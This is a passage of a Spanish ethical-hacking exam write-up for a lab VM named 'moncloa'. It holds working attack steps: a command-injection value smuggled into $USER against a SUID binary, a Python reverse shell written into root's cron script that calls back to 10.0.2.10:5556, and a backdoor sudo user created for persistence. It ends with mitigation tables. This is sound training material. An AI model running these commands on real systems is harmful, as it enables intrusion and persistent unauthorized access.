> **`EstaCl@veE$-_sup3rt0ch4`**

<p align="center">
  
</p>
<p align="center"><i>CyberChef — descifrado de la contraseña. Siguiendo el orden de operaciones del chatlog (Base64 → Base32 → Base58 → ...), la herramienta produce la contraseña en texto claro: EstaCl@veE$-_sup3rt0ch4.</i></p>

Con la contraseña obtenida, se descomprime el ZIP desde la interfaz gráfica de Kali:

<p align="center">
  
</p>
<p align="center"><i>Descompresión exitosa. El ZIP se abre correctamente con la contraseña EstaCl@veE$-_sup3rt0ch4. El contenido son varias fotografías, entre las que una resulta especialmente interesante.</i></p>

<p align="center">
  
</p>
<p align="center"><i>Contenido del ZIP descomprimido. Se obtienen varias imágenes. Visualmente, el fichero wallpaper.jpeg destaca como candidato a contener información oculta por esteganografía.</i></p>

---

### Segunda escalada horizontal: koldo → abalos (strings sobre imagen)

La técnica de **extracción de strings** aplicada sobre los binarios de las imágenes permite detectar cadenas de texto legibles ocultas en los metadatos o en los propios datos de la imagen JPEG, un vector clásico de esteganografía simple.

```bash
strings wallpaper.jpeg | tail -20
```

Entre el ruido de caracteres sin sentido propio de los datos binarios de la imagen, aparece al final una línea perfectamente legible:

```
Jijiji la clave de abalos es w3u2q20f9b3fqgp9i885u45uelpgf673
```

<p align="center">
  
</p>
<p align="center"><i>Esteganografía simple revelada. El comando strings sobre wallpaper.jpeg muestra, entre datos binarios, la credencial de abalos en texto claro. Segunda escalada horizontal localizada.</i></p>

Con la contraseña en mano, se realiza un `su abalos` desde la sesión de `koldo` para completar la segunda escalada horizontal:

```bash
su abalos
# Contraseña: w3u2q20f9b3fqgp9i885u45uelpgf673
whoami
# abalos
```

---

### Tercera escalada horizontal: abalos → pedro (SUID hola + inyección de variable)

Como `abalos`, se inspecciona el directorio home en busca de nuevos vectores. Se localiza el directorio oculto `.mis_binarios` con un binario llamado `hola` con el bit **SUID activo** y perteneciente a `pedro`.

```bash
ls -lah ~/.mis_binarios
```

```
-rwsrwsr-x 1 pedro  pedro  hola
-rw-rw-r-- 1 abalos abalos hola.c
```

<p align="center">
  
</p>
<p align="center"><i>Directorio .mis_binarios en el home de abalos. El binario hola tiene SUID activo con UID de pedro. El análisis del código fuente (hola.c) revela que el binario saluda al usuario usando directamente la variable de entorno $USER sin sanitizar.</i></p>

El análisis del fichero fuente `hola.c` (legible por abalos) revela que el binario **ejecuta un `printf` con el contenido de `$USER` directamente vía `system()`**. Esto permite una **inyección de comandos a través de la variable de entorno**, un vector clásico de privesc por SUID mal programado:

```bash
# Probando la inyección en $USER
USER="a;/bin/bash"
./hola
# Hola a
# pedro@moncloa:~$
```

El punto y coma (`;`) en el valor de `$USER` provoca que el binario ejecute `/bin/bash` como un comando separado, pero con el UID efectivo de `pedro` gracias al SUID. **Tercera escalada horizontal completada.**

---

### Escalada vertical: pedro → root (Crontab Hijacking)

Como `pedro`, se realiza un reconocimiento completo del directorio home. En el **Escritorio** se localizan dos ficheros especialmente relevantes:

```bash
ls -lah /home/pedro/Escritorio
```

```
-rw-rw-r-- 1 pedro pedro .comandos.txt
-rw-rw-r-- 1 pedro pedro copia-crontab-root.txt
```

<p align="center">
  
</p>
<p align="center"><i>Escritorio de pedro. Se descubren dos ficheros clave: la copia del crontab de root (que revela qué scripts ejecuta root en cada minuto) y el fichero .comandos.txt que actúa como lista de comandos a ejecutar por el script de root.</i></p>

El contenido del crontab de root es revelador:

```bash
cat /home/pedro/Escritorio/copia-crontab-root.txt
```

```
* * * * * chmod -R 660 /var/www/html/backup/uploads/*
* * * * * python3 /home/pedro/Documentos/perrosanche.py
```

**Root ejecuta `perrosanche.py` cada minuto.** El análisis del script revela que lee comandos del fichero `/home/pedro/.comandos.txt` y los ejecuta con `subprocess.run(shell=True)`. Y **pedro tiene permisos de escritura sobre ese fichero**.

```bash
cat /home/pedro/Documentos/perrosanche.py
```

```python
# Extracto clave
nombre_archivo = "/home/pedro/.comandos.txt"
# Lee línea a línea y ejecuta cada comando como root
resultado = subprocess.run(comando, shell=True, check=True)
```

<p align="center">
  
</p>
<p align="center"><i>Análisis de perrosanche.py. El script lee el fichero .comandos.txt y ejecuta cada línea como un comando de sistema. Como root ejecuta este script cada minuto vía crontab, cualquier comando introducido en .comandos.txt se ejecutará con privilegios de root.</i></p>

El vector final es claro: **sobrescribir `perrosanche.py` con una reverse shell Python** que se conecte al listener de la máquina atacante. La reescritura se realiza línea a línea con `echo >>` para evitar problemas de escape:

```bash
echo "import os, pty, socket" > /home/pedro/Documentos/perrosanche.py
echo "s = socket.socket()" >> /home/pedro/Documentos/perrosanche.py
echo "s.connect((\"10.0.2.10\",5556))" >> /home/pedro/Documentos/perrosanche.py
echo "[os.dup2(s.fileno(), f) for f in (0,1,2)]" >> /home/pedro/Documentos/perrosanche.py
echo "pty.spawn(\"sh\")" >> /home/pedro/Documentos/perrosanche.py
```

Con el listener activo en la máquina atacante en el puerto `5556`, el crontab de root ejecuta el script cada minuto y la conexión llega:

```bash
# Atacante
nc -lvnp 5556
# ...
# whoami
# root
```

<p align="center">
  
</p>
<p align="center"><i>Escalada vertical — crontab hijacking exitoso. Terminal izquierda: el fichero perrosanche.py ha sido reemplazado por la reverse shell Python (confirmado con cat). Terminal derecha: el listener nc recibe la conexión entrante como root cuando el crontab ejecuta el script al minuto siguiente.</i></p>

**Acceso root obtenido.** La máquina `moncloa` ha sido completamente comprometida.

---

## 🔒 Fase V — Persistencia

Con acceso root, el objetivo final es **garantizar la persistencia** de forma que el acceso al sistema pueda mantenerse incluso tras un reinicio de la máquina o la detección del vector de intrusión original. La técnica elegida es la **creación de un usuario con privilegios de administrador (sudo)**, que además permite el acceso remoto legítimo vía SSH sin dependencia de la reverse shell.

```bash
# Crear usuario gabri con bash como shell
useradd -m -s /bin/bash gabri

# Establecer contraseña
echo 'gabri:gabri' | chpasswd

# Añadir al grupo sudo
usermod -aG sudo gabri

# Verificar privilegios
su gabri
sudo whoami
# root — confirmado
```

<p align="center">
  
</p>
<p align="center"><i>Persistencia establecida. Como root, se crea el usuario "gabri" con contraseña y se añade al grupo sudo. La verificación con sudo whoami devuelve "root", confirmando que el nuevo usuario tiene superpoderes. La persistencia queda asegurada.</i></p>

El usuario creado permite ahora el acceso directo al sistema mediante **SSH desde la máquina atacante**, de forma completamente independiente a la reverse shell y al servidor web comprometido:

```bash
ssh gabri@10.0.2.15
# contraseña: gabri
gabri@moncloa:~$
```

<p align="center">
  
</p>
<p align="center"><i>Persistencia completada y verificada. Desde la máquina atacante (Kali) se establece una conexión SSH directa con el usuario gabri a la máquina víctima (La Moncloa). El acceso es completamente independiente del vector de explotación original y persiste tras cualquier reinicio del sistema.</i></p>

**Misión cumplida.** La máquina `moncloa` ha sido comprometida en su totalidad, desde el acceso inicial como `www-data` hasta la persistencia con usuario sudoer propio, habiendo escalado a través de una cadena de cuatro usuarios hasta alcanzar `root`.

---

## 📋 Resumen Ejecutivo y Hallazgos

### Cadena de compromiso completa

```
INTERNET
    │
    │  FTP Anónimo (Puerto 21) + Subida de payload Python
    ▼
ACCESO INICIAL — www-data
    │
    │  SUID Binary (pitoncito) + Python os.setreuid() abuse
    ▼
ESCALADA H1 — koldo
    │
    │  Lectura chatlog → Exfiltración fotitos.zip → CyberChef (multi-encoding) → strings esteganografía
    ▼
ESCALADA H2 — abalos
    │
    │  SUID Binary (hola) + Command Injection vía variable de entorno $USER
    ▼
    │  LECTURA DE CRONTAB ROOT  →  reconocimiento de perrosanche.py  →  .comandos.txt
ESCALADA H3 — pedro
    │
    │  Crontab Hijacking (sobrescritura de perrosanche.py con reverse shell)
    ▼
ESCALADA V — root
    │
    │  useradd + chpasswd + usermod -aG sudo → SSH independiente
    ▼
PERSISTENCIA — gabri (sudoer)
```

### Vulnerabilidades identificadas

| ID | Severidad | Servicio | Vulnerabilidad | Impacto |
|:---:|:---:|:---|:---|:---|
| VUL-01 | 🔴 **Crítica** | FTP (21) | Login anónimo con directorio escribible | Subida de payloads arbitrarios |
| VUL-02 | 🔴 **Crítica** | HTTP (80) / Flask (8055) | Directory Listing + LFI + RCE en app.py | Ejecución remota de código |
| VUL-03 | 🔴 **Crítica** | Sistema | SUID `pitoncito` + Python interpreter abuse | Escalada horizontal a koldo |
| VUL-04 | 🟠 **Alta** | Sistema | `chatlog.log` con información sensible en texto claro | Revelación de ZIP cifrado y mecanismo de descifrado |
| VUL-05 | 🟠 **Alta** | Sistema | Esteganografía simple (strings en JPEG) con credenciales | Escalada horizontal a abalos |
| VUL-06 | 🔴 **Crítica** | Sistema | SUID `hola` con inyección de comandos via `$USER` | Escalada horizontal a pedro |
| VUL-07 | 🔴 **Crítica** | Sistema | Crontab root ejecuta script escribible por pedro | Escalada vertical a root |
| VUL-08 | 🟠 **Alta** | Sistema | Exposición de copia del crontab de root | Reconocimiento facilitado |

### Recomendaciones de mitigación

| Vulnerabilidad | Corrección recomendada |
|:---|:---|
| FTP anónimo con escritura | Deshabilitar login anónimo. Si es requerido, eliminar permisos de escritura del directorio público |
| Directory Listing en nginx | `autoindex off;` en la configuración del virtual host |
| RCE en app.py | Eliminar la ejecución de código arbitrario. Implementar una lista blanca estricta de ficheros servibles |
| SUID pitoncito | Eliminar el bit SUID del binario. Usar mecanismos basados en `sudo` con reglas específicas |
| Credenciales en chatlog | No almacenar información sensible en ficheros de log. Usar canales cifrados para comunicación |
| Esteganografía en imágenes | No ocultar credenciales en ficheros de usuario. Usar gestores de contraseñas y autenticación por clave pública |
| SUID hola con inyección | No usar variables de entorno sin sanitizar en código SUID. Eliminar el SUID del binario |
| Crontab hijacking | El script ejecutado por root no debe ser escribible por usuarios no privilegiados. `chmod 750` + `chown root:root perrosanche.py` |

---

<hr>
<p align="center">
  <i>
    Examen Final de Hacking Ético — Máster en Ciberseguridad.<br>
    Máquina objetivo: <b>moncloa</b> (10.0.2.15) · Entorno: VirtualBox · Metodología: Caja Negra<br>
    Cadena de escalada completa: <b>www-data → koldo → abalos → pedro → root</b><br><br>
    <b>Realizado por Gabriel Godoy Alfaro</b>
  </i>
</p>
